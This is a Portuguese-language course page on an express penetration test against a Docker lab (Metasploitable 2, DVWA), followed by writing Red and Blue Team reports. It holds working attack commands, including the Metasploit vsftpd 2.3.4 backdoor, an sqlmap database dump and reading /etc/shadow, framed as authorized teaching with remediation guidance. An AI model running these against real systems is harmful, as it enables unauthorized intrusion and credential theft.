



# Teste de Intrusão Express

> [!quote] A via rápida
> *Esta é a rota mais curta entre "não sei por onde começar" e "entreguei dois relatórios profissionais". Pouca teoria, muito fazer. Cada passo tem um comando para rodar e um resultado para observar. Quando sobrar tempo, os links levam você ao aprofundamento de cada fase.*

> [!danger] ⚖️ Regra zero — leia antes de tudo
> Teste de intrusão **só** em alvo autorizado. Nesta disciplina, **seu único alvo autorizado é o laboratório que o professor entregou** (Docker / VM). Atacar qualquer outra coisa (site, rede do vizinho, Wi-Fi da escola, servidor da faculdade) é **crime** — art. 154-A do Código Penal (Lei 12.737/2012), reclusão de 1 a 4 anos.
> A diferença entre pentester e criminoso é **uma só**: a autorização. Sem ela, pare.

---

## 🎯 O que você vai entregar

O objetivo da disciplina não é "saber hackear". É **saber atacar para depois saber consertar**. Por isso a entrega final são **dois relatórios**, escritos para públicos opostos a partir do mesmo ataque:

| Relatório | Para quem | Responde a pergunta | Página de apoio |
|-----------|-----------|---------------------|-----------------|
| **1. Relatório do Ataque (Red)** | Gestão + time de segurança | "O que foi quebrado, como, e qual o risco?" | [[Documentação Report]] |
| **2. Relatório para o Blue Team** | Quem vai **corrigir** (Dev/Infra/SOC) | "O que eu faço, em que ordem, e como sei que ficou seguro?" | esta página + [[Juntando tudo (745)]] (visão defensiva) |

> [!info] A grande sacada
> É o **mesmo achado**, visto por **duas lentes**. O atacante descreve o problema; o defensor recebe a solução acionável. Quem só escreve o relatório do ataque entregou metade do trabalho.



---

## 🗺️ A via express em um diagrama



> [!tip] Onde isto se encaixa
> Esta página é a **espinha** do processo. As fases detalhadas (cada uma com dezenas de técnicas) estão no [[Master checklist]]; o passo a passo completo com todos os comandos contra um alvo está em [[Juntando tudo (745)]]. Aqui você roda a versão mínima que funciona de ponta a ponta.

---

## ⏱️ Orçamento de tempo (time-box)

Express significa **caixa de tempo**: você não vai testar tudo, vai testar o que cabe e documentar bem. Sugestão para uma rodada completa em ~1 sessão de laboratório:

| Passo | Tempo-alvo | Entrega da etapa |
|-------|-----------|------------------|
| 0 — Autorização + setup | 10 min | Pasta de evidências criada, alvo no ar |
| 1 — Recon e varredura | 20 min | Lista de portas/serviços/versões |
| 2 — Exploração | 40 min | Pelo menos **1 acesso** obtido (shell) |
| 3 — Pós-exploração | 20 min | Prova de impacto (root / dado sensível) |
| 4 — Relatório do Ataque | 40 min | 3 achados com evidência + CVSS |
| 5 — Relatório do Blue Team | 40 min | 3 correções priorizadas + como validar |
| 6 — Reteste | 10 min | Confirmação de fechado/aberto |

> [!warning] Tempo acabou no Passo 2 e você não entrou?
> Sem problema. Documente o que **tentou** (comandos + saída) — um pentest com 0 acesso ainda gera relatório válido ("superfície reduzida, sem vetor explorável no tempo dado"). **A entrega principal é a documentação, não o troféu.**

---

## 🧰 Passo 0 — Antes de tocar no alvo

**1. Confirme o escopo.** Seu único alvo autorizado é o **laboratório da disciplina**. Tudo fora dele = não toque.

**2. Suba o laboratório (já vem pronto).** O ambiente traz a **máquina atacante (Kali com as ferramentas)** e os **alvos** já configurados, em rede isolada. Você não instala nada além do Docker — sem perder tempo montando ambiente.

> [!tip] ⬇️ Laboratório pronto (Docker)
> Baixe e descompacte o **[[Recursos/Segurança da informação/Teste de Intrusão Express/pentest-express-lab.zip|pentest-express-lab.zip]]**. Dentro da pasta `pentest-express/`:
> ```bash
> docker compose up -d --build       # 1ª vez baixa/constrói (alguns min); depois é instantâneo
> docker compose ps                  # confere que está tudo no ar
> docker compose exec atacante bash  # entra na máquina atacante (Kali, em /work)
> ```
> Os alvos são alcançados **pelo nome** (o Docker resolve o IP). Ao terminar a sessão: `docker compose down`.
>
> | Nome | O que é | Como começar |
> |------|---------|--------------|
> | `alvo` | Metasploitable 2 (SO/serviços) | `nmap alvo` |
> | `alvo-web` | DVWA (web) | `curl http://alvo-web` |
>
> O zip traz `docker-compose.yml` + `atacante/Dockerfile` + `README`. Tudo que você salvar em `/work` aparece na pasta `work/` no host e **sobrevive ao `docker compose down`** — é onde mora sua entrega.

> [!info] 💻 Requisitos da máquina e a primeira execução
> **O que você baixa da página é minúsculo:** o `.zip` tem alguns **KB** (só os arquivos de texto do Docker). As imagens (~7 GB no total) o Docker **baixa e constrói na sua máquina** na primeira vez que você roda `docker compose up -d --build` — e ficam em **cache**: as próximas vezes sobem em segundos e **sem internet**.
>
> | Recurso | Mínimo | Recomendado |
> |---------|--------|-------------|
> | CPU | 2 núcleos (x86-64, virtualização ligada) | 4 núcleos |
> | RAM | 4 GB (Linux) · 8 GB (Windows/macOS) | 8 GB |
> | Disco livre | 15 GB | 20 GB (SSD) |
> | Sistema | Windows 10/11 (WSL2), macOS 11+ ou Linux, **com Docker** | — |
> | Internet | só na 1ª vez (baixar as imagens) | — |
>
> Rodando, os três containers somam **menos de 0,5 GB de RAM** — o que pesa é o **disco** das imagens. Em Windows/macOS o Docker roda numa máquina virtual própria, por isso os 8 GB.

**3. Crie a pasta de evidências.** Sem evidência não há relatório. Dentro da máquina atacante:

```bash
mkdir -p /work/{recon,exploração,evidências} && cd /work
script -a evidências/sessao.log    # grava sua sessão com data/hora; 'exit' encerra
```

> [!example] 🧪 Atividade — preparar o terreno
> Suba o lab, entre no atacante (`docker compose exec atacante bash`) e rode `nmap alvo`. **Resultado observável:** o `nmap` lista as portas abertas do alvo (ftp, ssh, http, samba…). Listou? Ambiente pronto. (Montar um lab do zero, a fundo: [[Preparando o terreno]] e [[Sistemas utilizados]].)

---

## 🔍 Passo 1 — Recon e varredura

Objetivo: descobrir **quais portas estão abertas, quais serviços e quais versões**. É daqui que saem os alvos de exploração.

```bash
# Varredura completa do alvo: portas, versões, scripts padrão, SO
nmap -sC -sV -O -p- --open alvo -oA recon/nmap_full

# No alvo web (DVWA), enumere também o conteúdo:
nikto -h http://alvo-web -o recon/nikto.txt
gobuster dir -u http://alvo-web -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html -o recon/gobuster.txt
```

**Resultado observável:** uma lista de portas com serviço e versão (no lab: `21/tcp vsftpd 2.3.4`, `80/tcp Apache 2.2.8`, `139/445 Samba`, `3306 MySQL`, `8180 Tomcat`…). Cada versão antiga é um candidato a vulnerabilidade.

> [!tip] Aprofundar quando sobrar tempo
> Reconhecimento passivo (OSINT, Shodan, Google dorks) e ativo em detalhe: [[Coleta de informações]]. Port scanning avançado: [[Escaneamento de IPs e portas (Port Scanning)]].

---

## 💥 Passo 2 — Exploração

Objetivo: transformar uma versão vulnerável em **acesso real** (um shell). Procure exploit conhecido para os serviços que você listou.

```bash
# Procure exploit para cada serviço/versão achado no Passo 1
searchsploit vsftpd 2.3.4
searchsploit samba 3.

# Exploração guiada via Metasploit (exemplo: backdoor do vsftpd 2.3.4)
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS alvo
run
# ➜ shell obtida; confirme quem você é:
id
```

**Para alvo web** (DVWA / Juice Shop), os vetores mais rápidos são SQL Injection, upload de webshell e credencial padrão. Comece pelo `sqlmap`:

```bash
sqlmap -u "http://alvo-web/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<seu_cookie>; security=low" --batch --dump
```

> [!warning] 📸 Tire o print AGORA
> No instante em que `id` ou o dump retornar, **capture a tela e salve a saída**. Essa é a "prova de conceito" (PoC) do seu achado. Sem ela, o achado não existe no relatório.

> [!tip] Aprofundar
> Catálogo de técnicas de exploração e payloads: [[Exploração do alvo]]. Walkthrough completo com 4 vetores no mesmo alvo: [[Juntando tudo (745)]].

---

## 🏠 Passo 3 — Pós-exploração

Objetivo: **provar o impacto**. Um shell de usuário comum é interessante; root + dado sensível é o que assusta a gestão. Faça o mínimo para demonstrar o pior caso.

```bash
# Quem eu sou? Já sou root?
id && whoami

# Se não for root, procure o caminho rápido de escalada:
sudo -l                                   # comandos sem senha
find / -perm -u=s -type f 2>/dev/null     # binários SUID

# Prove o impacto coletando UMA evidência de dado sensível (em lab):
cat /etc/shadow | head      # hashes de senha (Linux)
```

**Resultado observável:** print mostrando `uid=0(root)` **ou** um dado que jamais deveria estar acessível. Pare por aqui — você já provou o ponto.

> [!info] Em pentest real
> Nunca exfiltre dados reais do cliente: use arquivos-isca para demonstrar o vetor. Toda persistência criada (conta, chave SSH, cron) é **documentada e removida** ao fim. Detalhes: [[Escalonamento de privilégios]], [[Manutenção do acesso]], [[Apagando rastros]].

---

> [!success] 🔑 A regra de ouro do teste inteiro
> **Documente enquanto faz, não depois.** Para cada ação que der certo, registre na hora: (1) o **comando** exato, (2) a **saída**, (3) um **print** com data/hora. Quem deixa para "lembrar depois" entrega relatório fraco. Seus dois relatórios são só a organização do que já está no seu `sessao.log` e na pasta `evidências/`.

---

## 📄 Passo 4 — Relatório 1: do Ataque (Red)

Estrutura mínima viável (versão completa e modelos prontos em [[Documentação Report]]):

1. **Capa** — alvo, escopo, datas, seu nome, "Confidencial".
2. **Sumário Executivo** (½ página, **sem jargão**) — postura geral de risco + os achados mais graves em linguagem de negócio. Ex.: *"Um atacante na mesma rede assume o controle total do servidor em menos de 5 minutos, sem senha."*
3. **Escopo e Metodologia** — o que foi testado, em que janela, qual padrão seguiu (PTES / OWASP / [[Master checklist]]).
4. **Achados** — um bloco por vulnerabilidade. **Esta é a parte técnica.**

Para **cada achado**, preencha este molde enxuto:

```
ACHADO-01 · <título objetivo>
Severidade: <Crítico/Alto/Médio/Baixo>   CVSS: <nota> <vetor>
Descrição: <o problema, em 2-3 frases>
Evidência (PoC): <comando + saída + nome do print>
Impacto: <o que um atacante REAL conseguiria com isso>
```

> [!tip] 📝 Não comece do zero
> Baixe o **[[Recursos/Segurança da informação/Teste de Intrusão Express/Relatorio do Ataque (Red) - MODELO.docx|modelo do Relatório do Ataque (.docx)]]** e preencha. Estrutura completa, exemplo de _finding_ e teoria do CVSS: [[Documentação Report]].

> [!tip] CVSS em 1 minuto
> A nota define a urgência. Use a [calculadora oficial CVSS 4.0](https://www.first.org/cvss/calculator/4.0), cole o vetor gerado no achado e classifique: **Crítico 9.0-10.0 · Alto 7.0-8.9 · Médio 4.0-6.9 · Baixo 0.1-3.9**. Teoria completa do CVSS em [[Documentação Report]].

---

## 🛡️ Passo 5 — Relatório 2: para o Blue Team

Aqui está o diferencial da disciplina, e a parte que a maioria esquece. O Blue Team **não quer saber como você invadiu** — quer saber **o que fazer na segunda-feira de manhã**. Reescreva cada achado do Passo 4 nesta lente de **correção**:

> [!tip] 📝 Modelo pronto
> Baixe o **[[Recursos/Segurança da informação/Teste de Intrusão Express/Relatorio para o Blue Team - MODELO.docx|modelo do Relatório para o Blue Team (.docx)]]** e preencha um bloco por achado.

Para **cada achado**, entregue os quatro campos:

| Campo | O que escrever | Por quê |
|-------|----------------|---------|
| 🔧 **Como corrigir** | Passo acionável e específico (comando/config exata), não "aplique patches" | O Dev/Infra executa sem te perguntar nada |
| 👁️ **Como detectar** | Que log/alerta dispararia esse ataque + a técnica [MITRE ATT&CK](https://attack.mitre.org/) correspondente | Se acontecer de novo, o SOC vê |
| ⏱️ **Prazo (SLA)** | Quando tem que estar corrigido, pela severidade (tabela abaixo) | Transforma achado em compromisso com data |
| ✅ **Como validar** | O comando/teste que prova que fechou (o reteste) | Sem isso, ninguém sabe se foi resolvido |

### Prazos de correção por severidade (SLA — referência de mercado 2026)

| Severidade | Prazo para corrigir | Exemplos típicos |
|-----------|---------------------|------------------|
| 🔴 **Crítico** | **24-72 h** | RCE sem autenticação, credencial padrão em sistema exposto |
| 🟠 **Alto** | **até 30 dias** (15 se exposto) | Serviço vulnerável com patch disponível, senha fraca interna |
| 🟡 **Médio** | **até 60 dias** | Configuração insegura, headers HTTP ausentes, TLS antigo |
| 🟢 **Baixo** | **até 90 dias** | Hardening adicional, banners de versão expostos |

> [!info] Severidade não é só CVSS (mente de 2026)
> Uma falha CVSS médio **sendo explorada no mundo real agora** merece tratamento de crítico. Ajuste o prazo pela **exploração ativa** (catálogo [CISA KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) exige correção em 14 dias) e pela **criticidade do ativo** (servidor de produção > máquina de teste), não só pela nota.

### Exemplo de bloco de correção (Blue Team)

```
ACHADO-01 · RCE via backdoor no vsftpd 2.3.4 (porta 21)
Severidade: CRÍTICO  →  SLA: corrigir em 24-72 h

🔧 CORRIGIR:
   1. Remover/atualizar o vsftpd para versão sem backdoor:
      apt-get purge vsftpd  (ou atualizar para >= 3.0)
   2. Se FTP for necessário, usar SFTP (porta 22) no lugar.
   3. Firewall: bloquear a porta 21/tcp na borda.

👁️ DETECTAR (MITRE T1190 - Exploit Public-Facing App):
   - Alertar conexões na porta 21 vindas de hosts não autorizados.
   - Logar e alertar abertura de shell logo após login FTP (porta 6200).

✅ VALIDAR (reteste):
   nmap -p 21 --script ftp-vsftpd-backdoor <alvo>
   ➜ esperado: porta fechada OU "not vulnerable".
```

> [!tip] Visão defensiva por fase
> Onde quebrar cada elo da cadeia de ataque (recon → exploração → C2 → exfiltração) e quais ferramentas defensivas usar: tabela completa em [[Juntando tudo (745)]] (seção "Onde Quebrar a Kill Chain").

---

## 🔁 Passo 6 — Reteste (fechar o ciclo)

Um achado não é "resolvido" porque alguém disse que corrigiu. **Trate cada achado como um item de ciclo de vida**: ele nasce na descoberta e só morre quando o reteste confirma.



> [!info] Por que isso importa (2026)
> O maior buraco em pentest profissional não é achar a falha — é o achado **ficar parado** entre o relatório e a correção. Mantenha cada achado com **um único status** (Aberto → Em correção → Fechado) e **anexe o resultado do reteste ao próprio achado**. Isso é o que separa um relatório que vira PDF na gaveta de um que de fato reduz risco.

---

## ✅ Checklist de entrega

> [!example] 🧪 O que você entrega ao final
> - [ ] Pasta `evidências/` com `sessao.log` + prints datados de cada acesso
> - [ ] **Relatório do Ataque (Red)**: capa + sumário executivo + escopo + **≥ 3 achados** (com PoC e CVSS)
> - [ ] **Relatório do Blue Team**: os mesmos achados com **corrigir / detectar / SLA / validar**
> - [ ] Tabela de priorização (o que corrigir primeiro, por severidade + exposição)
> - [ ] Status final de cada achado (Aberto / Em correção / Fechado pós-reteste)
>
> **Os dois PDFs juntos = o pentest completo.** Um sem o outro é entrega pela metade.

---

## 🧪 Atividade integradora (express, ponta a ponta)

> [!example] 🧪 Faça um pentest inteiro em uma sessão
> **Alvo:** o laboratório autorizado da disciplina (Metasploitable 2 ou DVWA, via Docker).
> **Objetivo:** percorrer os Passos 0 → 6 e entregar os **dois relatórios**.
>
> **Roteiro:**
> 1. Passo 0: pasta de evidências + alvo no ar.
> 2. Passos 1-3: obtenha **pelo menos 1 acesso** e prove o impacto (print do `id` / dado sensível).
> 3. Passo 4: escreva o Relatório do Ataque com 3 achados (use a calculadora CVSS).
> 4. Passo 5: reescreva os 3 achados na lente do Blue Team (corrigir/detectar/SLA/validar).
> 5. Passo 6: reteste pelo menos 1 correção e registre o status.
>
> **Resultado observável:** dois PDFs entregues. Teste de qualidade: *um colega que não fez o ataque consegue, lendo só o Relatório do Blue Team, corrigir as falhas sem te perguntar nada?* Se sim, você entregou um pentest de verdade.

---

## 🚦 Se sobrar tempo: aprofundar

A via express te leva ao destino. Estes são os desvios cênicos, para quando houver fôlego:

| Quer ir mais fundo em... | Vá para |
|--------------------------|---------|
| Todas as fases e técnicas, item por item | [[Master checklist]] |
| Um ataque completo comentado, do recon ao report | [[Juntando tudo (745)]] |
| Escrever relatório profissional (CVSS 4.0, SysReptor, modelos) | [[Documentação Report]] |
| Reconhecimento e OSINT a sério | [[Coleta de informações]] |
| Exploração e payloads em profundidade | [[Exploração do alvo]] |
| O projeto-âncora da disciplina (red team com IA, ética por construção) | [[Projeto GovSec]] |

---

> [!note] 📚 Fontes (2026)
> - **PTES (Penetration Testing Execution Standard):** http://www.pentest-standard.org/ — as 7 fases do engajamento.
> - **OWASP WSTG:** https://owasp.org/www-project-web-security-testing-guide/ — testes para aplicação web.
> - **MITRE ATT&CK:** https://attack.mitre.org/ — catálogo de táticas/técnicas para a coluna "como detectar".
> - **CVSS 4.0 Calculator (FIRST):** https://www.first.org/cvss/calculator/4.0 — pontuação de severidade.
> - **CISA KEV (Known Exploited Vulnerabilities):** https://www.cisa.gov/known-exploited-vulnerabilities-catalog — falhas em exploração ativa (SLA 14 dias).
> - **Packetlabs — Remediating Pen Test Findings (2026):** https://www.packetlabs.net/posts/remediating-test-findings/ — boas práticas de remediação.
> - **PlexTrac — The Operational Gap Between Pentest Reports and Remediation:** https://plextrac.com/the-operational-gap-between-pentest-reports-and-real-remediation/ — achado como item de ciclo de vida + reteste.
> - **Secure.com — Vulnerability Remediation SLAs by Severity (2026):** https://www.secure.com/blog/vulnerability-remediation-slas — prazos de correção por severidade.
> - **Lei 12.737/2012, Art. 154-A CP:** o limite legal que torna o teste legítimo — autorização.
